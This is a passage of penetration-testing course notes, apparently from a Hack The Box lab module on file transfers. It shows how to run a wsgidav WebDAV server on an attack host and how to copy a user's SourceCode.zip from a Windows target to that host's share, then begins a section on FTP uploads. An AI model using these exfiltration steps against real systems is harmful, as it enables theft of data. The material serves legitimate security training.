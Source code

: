 <mark style="color:orange;">**Configuring WebDav Server**</mark>

To set up our WebDav server, we need to install two Python modules, `wsgidav` and `cheroot` (you can read more about this implementation here: [wsgidav github](https://github.com/mar10/wsgidav)). After installing them, we run the `wsgidav` application in the target directory.

<mark style="color:orange;">**Installing WebDav Python modules**</mark>

{% code fullWidth="true" %}
```bash
mrroboteLiot@htb[/htb]$ sudo pip3 install wsgidav cheroot
```
{% endcode %}

<mark style="color:orange;">**Using the WebDav Python module**</mark>

{% code fullWidth="true" %}
```shell-session
mrroboteLiot@htb[/htb]$ sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous 
```
{% endcode %}

<mark style="color:orange;">**Connecting to the Webdav Share**</mark>

Now we can attempt to connect to the share using the `DavWWWRoot` directory.

{% code fullWidth="true" %}
```powershell
C:\htb> dir \\192.168.49.128\DavWWWRoot
```
{% endcode %}

Note: `DavWWWRoot` is a special keyword recognized by the Windows Shell. No such folder exists on your WebDAV server. The DavWWWRoot keyword tells the Mini-Redirector driver, which handles WebDAV requests that you are connecting to the root of the WebDAV server.

You can avoid using this keyword if you specify a folder that exists on your server when connecting to the server. For example: \192.168.49.128\sharefolder

<mark style="color:orange;">**Uploading Files using SMB**</mark>

{% code fullWidth="true" %}
```powershell
C:\htb> copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\DavWWWRoot\
C:\htb> copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\sharefolder\
```
{% endcode %}

Note: If there are no SMB (TCP/445) restrictions, you can use impacket-smbserver the same way we set it up for download operations.

***

### <mark style="color:blue;">FTP Uploads</mark>

Uploading files using FTP is very similar to downloading files. We can use PowerShell or the FTP client to complete the operation. Before we start our FTP Server using the Python module `pyftpdlib`, we need to specify the option `--write` to allow clients to upload files to our attack host.

